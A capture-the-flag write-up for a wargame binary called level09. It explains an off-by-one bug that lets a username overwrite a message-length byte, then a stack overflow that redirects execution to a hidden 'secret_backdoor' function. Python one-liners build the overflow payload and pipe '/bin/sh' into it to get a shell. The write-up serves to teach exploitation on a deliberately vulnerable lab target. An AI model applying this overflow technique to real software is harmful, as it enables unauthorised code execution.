





# Level09

The program prompts username and send a message via Unix-Dude supposedly. Let's use [gdb and radare](Ressources/gdb.md) to understand what's going on.

The binary simply prompts for, then copies, username and a message.

We find a hidden function `secret_backdoor`, which reads to a buffer from `stdin`, then calls `system` with the buffer. 
Obviously we would like to jump to `secret_backdoor` somehow, and enter `/bin/sh` on `stdin`, to open a shell.

# Off-by-one error

The copy username loop has an `off-by-one` error, which allows the user to overwrite the `len_message` variable by one byte.

A larger `len_message` than the default `140` can cause `strncpy` to overflow the buffer when copying the Msg.

So let's fill the 40 byte username buffer, then overflow by 1 byte into `len_message`, writing the maximum 1 byte value `0xff`

    (python -c 'print "A" * 40 + "\xff"'; cat) | ./level09

# RSP offset

The binary was compiled in 64-bit, `RSP` (not `EIP`) is the return address register.

Using this [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) and the following in gdb.

    python -c 'print "A" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah"' > /tmp/level09

We find we start to overwrite `RSP` after `200` bytes (rsp value starts after the 200th byte of pattern).

# Secret_backdoor address

It's located at `0x55555555488c`

# Build exploit

So we build our exploit string:

- 40 byte username buffer, until overflow len - `"A" * 40 `
- 1 byte, max value, overwrite len - `\xff` 
- new line, enter unsername - \n 
- 200 byte msg buffer, until overflow `RSP` - `"A" * 200` 
- overwrite RSP with address of `secret_backdoor` - `"\x00\x55\x55\x55\x55\x48\x8c"[::-1]`
- new line, enter msg - \n 
- `system` open shell command - `/bin/sh`

Let's pipe our exploit string into the binary stdin.

    (python -c 'print "A" * 40 + "\xff" + "\n" + "A" * 200 + "\x00\x55\x55\x55\x55\x48\x8c"[::-1] + "\n" + "/bin/sh"'; cat) | ./level09

